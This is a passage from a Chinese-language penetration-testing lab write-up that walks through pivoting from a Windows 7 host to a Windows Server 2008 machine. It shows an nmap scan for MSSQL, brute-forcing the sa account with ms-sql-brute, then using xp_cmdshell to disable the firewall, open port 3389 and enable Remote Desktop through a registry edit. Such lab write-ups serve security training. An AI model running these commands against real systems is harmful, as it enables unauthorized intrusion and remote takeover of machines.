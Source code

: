 ![](https://upload-images.jianshu.io/upload_images/7216746-912e95d214764f11.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

查看C:\hack确认上传成功:
![](https://upload-images.jianshu.io/upload_images/7216746-96f99182fd8b4bb4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


运行cscript down1.vbs，上传SQLTOOLS软件:
![](https://upload-images.jianshu.io/upload_images/7216746-bbda43568421924f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

`Kali对Windows 7(192.168.114.138)的权限维持见**权限维持**模块`

## 从Windows 7进攻Windows server 2008
### 对Windws server 2008的sa账户进行爆破

1. 使用nmap扫描发现172.20.10.208开了1433端口

`nmap -p1433 --open 172.20.10.0/24`

![](https://upload-images.jianshu.io/upload_images/7216746-7e73464c4cce2f11.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

2. 使用ms-sql-brute模块对Win server 2008的sa账户进行爆破，获得用户名为sa，密码为123456

name.txt和password.txt是爆破用的字典

```
nmap -p 1433 --script ms-sql-brute --script-args userdb=C:\Users\Waldo\Desktop\name.txt,passdb=C:\Users\Waldo\Desktop\password.txt 172.20.10.208
```

![](https://upload-images.jianshu.io/upload_images/7216746-21df0b8e26c6adcb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

### 利用sqltoos获取Win server 2008 的权限
1. 使用sqltools进行sql连接
![](https://upload-images.jianshu.io/upload_images/7216746-5fe67b406e11d798.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

2. 用xp_cmdshell关闭防火墙限制

`netsh firewall set opmode mode=disable`

![](https://upload-images.jianshu.io/upload_images/7216746-c8f05deaa0cf63d8.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

3. 添加3389入站规则
```
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

![](https://upload-images.jianshu.io/upload_images/7216746-7fa509b4aa442d3d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

4.开启3389端口
```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
